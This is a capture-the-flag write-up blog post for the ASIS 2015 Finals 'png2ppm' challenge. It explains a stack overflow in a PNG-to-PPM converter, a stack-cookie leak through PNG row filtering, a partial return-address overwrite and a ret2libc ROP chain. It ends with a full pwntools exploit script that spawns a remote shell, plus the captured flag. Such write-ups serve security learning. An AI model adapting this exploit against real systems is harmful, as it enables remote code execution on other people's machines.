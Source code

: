 ```yaml
---
layout: post
title: "ASIS 2015 Finals: png2ppm (pwn450)"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


This challenge was an image conversion service which expected a PNG file and converted into a PPM file. PPM is a simple text-based image format, here is the wikipedia page describing it: https://en.wikipedia.org/wiki/Netpbm_format

The main vulnerability was a stack buffer overflow, because it allocated a buffer with the size of width * height * bitsPerPixel and copied the PNG's decompressed zlib data (except the filter field) to the buffer which does not respected the allocated buffer's size.

The main problem was that we also overwrote the stack canary and it was a 64-bit ASLR-enabled PIE binary (as the challenge website stated so) which did not fork, so new canary generated for every new connection:

![alt]({{ site.url }}/images/asis2015finals/png2ppm1.png)

Luckily there was an other vulnerability: the PNG file format uses a method called Filtering which can help to reduce the size of the file by only storing the differences with the pixel to the left or the pixel above etc. You can read about it here: https://en.wikipedia.org/wiki/Portable_Network_Graphics#Filtering

So if we tried to read the previous row in first row, then it read before our buffer. This way we could read the stack cookie from the previous function call. Although I am not 100% sure, but I think the binary was compiled with -fstack-protector-all, because there was stack cookie in every function. In this case maybe this paranoid setting caused more harm than good... :)

I had to experiment a bit with the width / height / with or without alpha channel options. As I had to switch between the "copy the above line" (2) filter (for the stack cookie) and "copy the exact values" (0) filter (for the return address). Finally I created a 6*1 PNG with alpha channel.

This way we could overwrite the stack cookie and we had RIP control. BUT as the binary was a PIE binary we had not fix addresses where we could jump. Or do we?

Basically the return address points to a valid memory address, to the next instruction after the sub_1560 call. So if we partially overwrite the return address, we can jump somewhere in the png2ppm binary.

Practically I jumped to the program's start again as at this point I already had a lot of leaked addresses as the result of the conversion contained the stack cookie, an address from the stack, and an address from the png2ppm binary (although I had to mix the address bytes from the pixelmap and the alpha map, because the conversion divided the values into two different files).

Only one thing separated me from getting a shell: a libc address :)

Because I know the program's base address at this point, I could jump to the puts PLT and print out the GOT table. So I got the puts function's libc address and calculated the system's address from it.

So in the next ROP chain I could call the system with "sh". For this I had to calculate the "sh" string's address from the stack (I could calculate this, because I already had a stack address leak).

Because of the partial overwrite, I also overwrote 4 bits from the ASLR random part, so for the real server I had to run the exploit multiple times to hit the correct address with a 1/16 change (locally I debugged it with disabled ASLR).

Finally I could print the flag out:
{% highlight text %}
ASIS{487e532d3aae05f1717f46104ba4ebf6}
{% endhighlight %}

### Exploit code

{% highlight python %}
import sys
import binascii
import struct
import zlib
from pwn import *
from time import sleep

for iTry in xrange(64):
    print "Try #%d / 64" % (iTry + 1)
    try:
        p = remote('185.106.120.22', 1337)

        time.sleep(0.5)

        def getChunk(data):
            return struct.pack('>I', len(data) - 4) + data + struct.pack('>i', binascii.crc32(data))

        def convertPng(width, height, plain):
            pngHdr = "\x89PNG\x0d\x0a\x1a\x0a";
            iHdr = getChunk("IHDR" + struct.pack('>II', width, height) + "\x08\x06\x00\x00\x00")
            iDat = getChunk("IDAT" + zlib.compress(plain))
            iEnd = getChunk("IEND")
            pngData = pngHdr + iHdr + iDat + iEnd
            p.send(str(len(pngData)) + '\n' + pngData)

        #system = "\x2e\x5d"
        mainPart = "\x79\x5a"

        convertPng(6, 1, ("\x02" + "\x00" * 24) * 6 + "\x00"*9 + mainPart)

        p.recvuntil('\n255\n')
        leakLine1 = p.recvline().strip()
        p.recvuntil('\n255\n')
        leakLine2 = p.recvline().strip()
        print "Leak lines = %r, %r" % (leakLine1, leakLine2)

        leakStr1 = ''.join([chr(int(x)) for x in leakLine1.split(' ')])
        leakStr2 = ''.join([chr(int(x)) for x in leakLine2.split(' ')])
        cookieLeak = u64(leakStr1[0:3]+leakStr2[0]+leakStr1[3:6]+leakStr2[1])
        stackBase = u64(leakStr1[6:9]+leakStr2[2]+leakStr1[9:12]+leakStr2[3]) - 0x1fc60 - 0x480
        prgBase = u64(leakStr1[12:15]+leakStr2[4]+leakStr1[15:18]+leakStr2[5]) - 0x184e
        print "Leaks: cookie = 0x%016x, stack = 0x%016x, prg = 0x%016x" % (cookieLeak, stackBase, prgBase)

        puts = prgBase + 0xa20
        putsGot = prgBase + 0x202f48
        popRdi = prgBase + 0x1b53
        main = prgBase + (((ord(mainPart[1]) - 0x40) << 8) + ord(mainPart[0]))
        rbx = "BBBBBBBB"
        rbp = "CCCCCCCC"
        ret = "DDDDDDDD"

        convertPng(64, 1, "\x00"*(1+64*4)+"\x00" + "X"*80 + p64(cookieLeak) + "XXXXXXXX"+rbx+rbp+p64(popRdi)+p64(putsGot)+p64(puts)+p64(main))
        p.recvuntil('\n255\n')
        p.recvuntil('\n255\n')
        p.recvline()
        putsLeak = u64(p.recvline()[:-1]+'\x00'*2)
        print "puts leak = 0x%016x" % putsLeak

        putsLocal = 0x7ffff786be30
        systemLocal = 0x7ffff7842640
        remoteSystem = putsLeak - putsLocal + systemLocal

        stackBaseLocal = 0x7ffffffde000
        binShLocal = 0x7fffffffe0e8
        binShRemote = stackBase - stackBaseLocal + binShLocal

        convertPng(64, 1, "\x00"*(1+64*4)+"\x00" + "X"*80 + p64(cookieLeak) + "XXXXXXXX"+rbx+rbp+p64(popRdi)+p64(binShRemote)+p64(remoteSystem)+"sh\x00")

        p.send('cat flag\n')
        p.interactive()
        break
    except:
        try:
            p.close()
        except:
            pass
        print "Fail!"
{% endhighlight %}